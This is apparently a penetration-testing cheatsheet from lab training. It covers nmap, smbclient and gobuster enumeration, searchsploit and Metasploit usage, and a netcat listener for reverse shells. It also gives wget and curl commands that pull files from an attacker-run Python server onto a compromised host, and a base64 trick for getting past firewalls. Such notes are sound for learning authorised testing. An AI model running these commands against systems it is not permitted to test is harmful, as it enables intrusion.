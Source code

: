 # 🛠️ Tools and Cheatsheets

## Socat

A tool like netcat but with more functionality like port forwarding and connecting to serial devices.

---

## Common Ports

[PacketLife Common Ports (Archived PDF)](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)

---

## Tmux Cheatsheet

[tmuxcheatsheet.com](https://tmuxcheatsheet.com/)

---

## Vim Basics

```text
i       → insert mode  
esc     → leave insert mode  
x       → cut character  
dw      → cut word  
dd      → cut full line  
yw      → copy word  
yy      → copy full line  
p       → paste

# Multiply commands:
4yw     → copy 4 words

# Command mode:
:1      → go to line 1  
:w      → save file  
:q      → quit  
:q!     → quit without saving  
:wq     → write and quit
```

---

# 🧪 Scanning and Enumeration

## Nmap

```text
PORT    STATE    SERVICE
21/tcp  open     ftp

# Notes:
- Scans the 1000 most common ports by default.
- Default scan performs a TCP handshake.
- "filtered" state means a firewall is blocking the port.
- "SERVICE" shows the typical service name.
- To see the actual process, specify additional flags.

# Parameters:
-sC     → default scripts for detailed info  
-sV     → service/version detection  
-p-     → scan all ports

# Banner Grabbing:
nmap -sV --script=banner <target>
```

## smbclient

```bash
# Enumerate SMB shares:
smbclient -N -L \\10.129.42.253

# Flags:
-L     → list available shares  
-N     → suppress password prompt
```

---

# 🌐 Web Enumeration

## Gobuster

```bash
# Directory enumeration:
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# Response codes:
200 → successful  
403 → forbidden  
301 → redirection

# DNS subdomain enumeration:
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

# Prerequisites:
- Install SecLists  
- Set a DNS server like 1.1.1.1 in /etc/resolv.conf
```

## curl

```bash
# Banner grabbing:
curl -IL https://www.inlanefreight.com
```

## whatweb

Like curl but more powerful for web enumeration.

## Certificates

SSL/TLS certificates may leak useful metadata for phishing or enumeration.

## robots.txt

This file tells crawlers what to ignore. It can expose sensitive or hidden directories.

## Source Code

Always check the source code of web pages. Developers sometimes leave sensitive info in comments or JavaScript.

---

# 🔍 Public Exploits

## searchsploit

```bash
# Install:
sudo apt install exploitdb -y

# Usage:
searchsploit openssh 7.2
```

## Metasploit (msfconsole)

```bash
# Find an exploit:
search exploit

# Use one:
use <exploit_path>

# Configure it:
show options
set <option> <value>

# Run it:
check
run or exploit
```

---

# 🔌 Connections

## Netcat

```bash
# Listen for a reverse shell:
nc -lvnp 1234

# Flags:
-l  → listen mode  
-v  → verbose  
-n  → no DNS resolution  
-p  → specify port
```

---

# 📁 Transferring Files

After gaining remote access via reverse shell, you may want to transfer files.

## Hosting a File with Python

```bash
cd /tmp
python3 -m http.server 8000
```

## Downloading with wget or curl (on the remote host)

```bash
# Using wget:
wget http://<your_ip>:8000/<file>

# Or using curl:
curl -O http://<your_ip>:8000/<file>
```

## SCP

If we gained ssh user credentials on the host, we can:

```bash
Yagan@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

## Base64

In some cases, the host might have a **firewall** which prevents us from downloading files. In this case we can use a simple trick:

*base64 encode the file into **base64** fromat*

Then paste the string on the remote server and decode it.